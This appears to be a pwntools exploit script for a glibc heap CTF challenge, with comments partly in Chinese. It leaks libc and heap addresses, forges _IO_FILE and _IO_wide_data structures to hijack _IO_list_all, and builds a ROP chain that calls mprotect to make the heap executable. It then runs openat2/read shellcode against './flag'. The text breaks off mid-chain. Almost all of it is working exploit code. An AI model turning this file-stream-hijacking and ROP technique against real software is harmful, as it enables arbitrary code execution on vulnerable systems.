 ```py
add_com(0x548)
add_com(0x548)
add_com(0x538)
del_com(1)
add_com(0x558)
del_com(3)

content = show_com(1)
libc_addr 	= u64(content[:8]) - 0x21b120
libc.address 	= libc_addr
heap_addr 	= u64(content[16:24])
heap_base_addr 	= heap_addr - 0x1950

leave_ret_c 	= next(libc.search(asm('leave;ret;')))
'''call [[[rdi + 0x48] + 0x18] + 0x28]; move rdi, [[rdi + 0x48] + 0x10]'''
magic_gadget 	= next(libc.search(asm('mov rbp, qword ptr [rdi + 0x48];mov rax, qword ptr [rbp + 0x18]')))
rdi_c 		= next(libc.search(asm('pop rdi;ret;')))
rsi_c 		= next(libc.search(asm('pop rsi;ret;')))
rdx_r12_c 	= next(libc.search(asm('pop rdx;pop r12;ret;')))
lock 		= libc_addr + 0x3ed8b0
wfile 		= libc_addr + 0x216F40

start_addr 	= heap_addr
widedata_addr 	= start_addr + 0xe0
orw_addr 	= start_addr + 0xe0 + 0xe8 + 0x70
shell_addr	= start_addr + 0xe0 + 0xe8 + 0x70 + 0x68

# 伪造 struct _IO_FILE_complete_plus
struct_file = flat({
	# struct _IO_FILE_complete -> _IO_FILE
	0:      0,                                          # file._flag
	0x18:   p64(leave_ret_c),                           # file._IO_read_base
	0x28:   p64(libc.symbols['_IO_list_all'] - 0x20),   # file._IO_write_ptr
	0x48: 	p64(orw_addr),                              # file._IO_save_base
	0x88:   p64(lock),                                  # file._lock
	# struct _IO_FILE_complete
	0xa0:   p64(widedata_addr),                         # file._wide_data 
	# struct
	0xd8:   p64(wfile),                                 # file._vtable
}, filler=b'\0')

# 伪造 struct _IO_wide_data
struct_widedata  = flat({
	0xe0:	p64(widedata_addr + 0xe8),                  # _IO_wide_data._IO_read_ptr
	0x150:	p64(magic_gadget),                          # 
}, filler=b'\0')

orw =  b'./flag\x00\x00'
orw += p64(rdx_r12_c) + p64(0) + p64(start_addr - 0x10)
# 调用 mprotect, 修改 heap_base_addr ~ heap_base_addr + 0x10000 为rwx
orw += p64(rdi_c) + p64(heap_base_addr)
orw += p64(rsi_c) + p64(0x10000)
orw += p64(rdx_r12_c) + p64(0x7) * 2
orw += p64(libc.symbols['mprotect'])
orw += p64(shell_addr)
''' long syscall(SYS_openat2, int dirfd, const char *pathname, struct open_how *how, size_t size); '''
orw += asm(shellcraft.openat2(-100, orw_addr, orw_addr + 0x1000, 0x18))
''' ssize_t read(int fd, void buf[.count], size_t count); '''
orw += asm(shellcraft.read(3, heap_base_addr + 0x10000, 0x50))
''' ssize_t write(int fd, const void buf[.count], size_t count); '''
''' write to stdout 1 '''
```